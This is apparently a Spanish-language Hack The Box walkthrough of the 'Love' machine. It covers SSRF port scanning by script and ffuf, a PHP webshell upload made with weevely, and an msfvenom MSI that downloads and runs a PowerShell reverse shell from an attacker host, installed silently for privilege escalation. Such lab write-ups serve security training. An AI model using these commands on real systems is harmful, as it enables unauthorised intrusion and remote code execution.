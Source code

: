 ```yaml
---
layout: single
title: Love - Hack The Box
excerpt: "Love es una máquina sencilla que cuenta con una vulnerabilidad ssrf en la cual logramos extraer una contraseña, luego ingresamos al panel de administración del admin y logramos subir una webshell. Luego la escalada de privilegios es bastante fácil"
date: 2022-09-09
classes: wide
header:
  teaser: /assets/images/htb-writeup-love/love_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - cxdxnt
tags:  
  - ssrf 
  - AllwaysInstallElevated
  - webshell
---
```

![](/assets/images/htb-writeup-love/love_logo.png)

Empezamos con love que es una máquina de calificación media, en la cual contiene una vulnerabilidad ssrf, gracias a cuya vulnerabilidad logramos extraer una contraseña que nos sirve para ingresar al panel de administración. Una vez dentro logramos insertar una webshell, una vez dentro de la máquina la elevación de privilegios consiste en la carga de un archivo msi malicioso.

## Enumeración

Lanzamos un simple reconocimiento con nmap.
```ruby
 nmap -sCV -p80,135,139,443,445,3306,5000,5040,7680,49664,49665,49666,49667,49668,49669,49670 10.10.10.239 -oN targeted
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-09 12:22 -03
Nmap scan report for 10.10.10.239
Host is up (0.24s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Voting System using PHP
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
| tls-alpn: 
|_  http/1.1
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, HTTPOptions, Help, LDAPBindReq, LDAPSearchReq, LPDString, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TerminalServerCookie: 
|_    Host '10.10.14.8' is not allowed to connect to this MariaDB server
5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.92%I=7%D=9/9%Time=631B5A4A%P=x86_64-pc-linux-gnu%r(HTT
SF:POptions,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.8'\x20is\x20not\x20
SF:allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(RTSPReq
SF:uest,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.8'\x20is\x20not\x20allo
SF:wed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(RPCCheck,49
SF:,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.8'\x20is\x20not\x20allowed\x20
SF:to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(DNSVersionBindReqT
SF:CP,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.8'\x20is\x20not\x20allowe
SF:d\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(DNSStatusRequ
SF:estTCP,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.8'\x20is\x20not\x20al
SF:lowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(Help,49,"
SF:E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.8'\x20is\x20not\x20allowed\x20to
SF:\x20connect\x20to\x20this\x20MariaDB\x20server")%r(SSLSessionReq,49,"E\
SF:0\0\x01\xffj\x04Host\x20'10\.10\.14\.8'\x20is\x20not\x20allowed\x20to\x
SF:20connect\x20to\x20this\x20MariaDB\x20server")%r(TerminalServerCookie,4
SF:9,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.8'\x20is\x20not\x20allowed\x2
SF:0to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(SMBProgNeg,49,"E\
SF:0\0\x01\xffj\x04Host\x20'10\.10\.14\.8'\x20is\x20not\x20allowed\x20to\x
SF:20connect\x20to\x20this\x20MariaDB\x20server")%r(FourOhFourRequest,49,"
SF:E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.8'\x20is\x20not\x20allowed\x20to
SF:\x20connect\x20to\x20this\x20MariaDB\x20server")%r(LPDString,49,"E\0\0\
SF:x01\xffj\x04Host\x20'10\.10\.14\.8'\x20is\x20not\x20allowed\x20to\x20co
SF:nnect\x20to\x20this\x20MariaDB\x20server")%r(LDAPSearchReq,49,"E\0\0\x0
SF:1\xffj\x04Host\x20'10\.10\.14\.8'\x20is\x20not\x20allowed\x20to\x20conn
SF:ect\x20to\x20this\x20MariaDB\x20server")%r(LDAPBindReq,49,"E\0\0\x01\xf
SF:fj\x04Host\x20'10\.10\.14\.8'\x20is\x20not\x20allowed\x20to\x20connect\
SF:x20to\x20this\x20MariaDB\x20server")%r(SIPOptions,49,"E\0\0\x01\xffj\x0
SF:4Host\x20'10\.10\.14\.8'\x20is\x20not\x20allowed\x20to\x20connect\x20to
SF:\x20this\x20MariaDB\x20server")%r(NotesRPC,49,"E\0\0\x01\xffj\x04Host\x
SF:20'10\.10\.14\.8'\x20is\x20not\x20allowed\x20to\x20connect\x20to\x20thi
SF:s\x20MariaDB\x20server");
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-09-09T15:47:01
|_  start_date: N/A
|_clock-skew: mean: 2h41m35s, deviation: 4h02m32s, median: 21m33s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-09-09T08:47:00-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 185.30 seconds
```

No vemos nada interesante en http://10.10.10.239/index.php ni como http ni como https. Por lo cual se me ocurre agregar el dominio sacado por nmap a nuestro /etc/hosts, y luego insertamos el dominio en nuestro navegador. Nos dirigimos a demo.php y vemos lo siguiente.

![](/assets/images/htb-writeup-love/ssrf.png)

Nos montamos un servidor web con php y probamos si nos interpreta el código php.

![](/assets/images/htb-writeup-love/interpreta-codigo-php.png)

Con lo visto anteriormente ya se me ocurre un ataque ssrf.

## Ssrf 

El ataque lo podemos hacer de dos formas, con un script en python o con ffuf.

```python
#!/usr/bin/python3
def ssrf():
    p = log.progress('Ssrf attack start.')
    p1=log.progress('Port')
    p2= log.progress("Port Open:")
    listport=""
    for port in range(1,65536):
        p1.status('%d/65536'%port)
        p2.status('%s'%listport)
        data_post={'file':"http://127.0.0.1:%d"%port,'read':'Scan file'}
        r = requests.post(main_url,data=data_post)
        if 4997 == len(r.text):
            pass
        else:
            port =str(port)
            listport+=port
if __name__ == '__main__':
    import requests
    from pwn import *
    main_url= "http://staging.love.htb/beta.php"
    ssrf()
```

```bash
ffuf -X POST -w port -u http://staging.love.htb/beta.php -d "file=http://127.0.0.1:FUZZ&read=Scan+file" -H "Content-Type: application/x-www-form-urlencoded" -c -t 50 -fw=1248

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.4.1-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://staging.love.htb/beta.php
 :: Wordlist         : FUZZ: port
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : file=http://127.0.0.1:FUZZ&read=Scan+file
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 50
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response words: 1248
________________________________________________

80                      [Status: 200, Size: 9385, Words: 1901, Lines: 337, Duration: 303ms]
443                     [Status: 200, Size: 5466, Words: 1296, Lines: 224, Duration: 248ms]
5000                    [Status: 200, Size: 9591, Words: 2385, Lines: 411, Duration: 249ms]
5985                    [Status: 200, Size: 5312, Words: 1266, Lines: 218, Duration: 246ms]
```
Ingresamos desde demo.php la siguiente url "http://127.0.0.1:5000" y vemos una password.

![](/assets/images/htb-writeup-love/credentials.png)

Vamos a la ruta http://10.10.10.239/admin e ingresamos dichas credenciales y logramos entrar.

- Le echamos un vistazo al panel de administración y notamos que podemos subir una “imagen”, probamos si nos deja subir un php y correcto nos deja. Procedemos a subir una webshell básica. 
- Luego para ver donde se guarda el archivo es simple, solamente aprietas ctrl+u(firefox) y buscas el nombre de tu archivo en el código html.

![](/assets/images/htb-writeup-love/whoami.png)

Si queremos tener un poco más de seguridad en nuestra web shell para que nadie más que nosotros pueda ejecutar comandos, procedemos a ser lo siguiente. Nos descargamos el repo de https://github.com/epinna/weevely3

```bash
cd weevely3/
python3 weevely.py generate '123#!123' cmd.php #Nos creamos una web shell.
python3 weevely.py http://10.10.10.239/images/cmd.php '123#!123' # Ingresamos a nuestra web shell.
```
![](/assets/images/htb-writeup-love/webshell.png)

## Elevacion de privilegios

Una vez dentro del sistema corremos el winpeas y encontramos esto.
![](/assets/images/htb-writeup-love/winpeas.png)

Creamos el paylaod.

```bash
msfvenom -p windows/exec CMD="powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8/Invoke-PowerShellTcp.ps1')" -f msi -o alwe.msi
```

Nos transferimos el alwe.msi a la máquina víctima y lo ejecutamos.

```bash
copy \\10.10.14.8\parrot\alwe.msi
msiexec /quiet /qn /i c:\windows\Temp\priv\alwe.msi
```
Logrado :D.


![](/assets/images/htb-writeup-love/root.png)
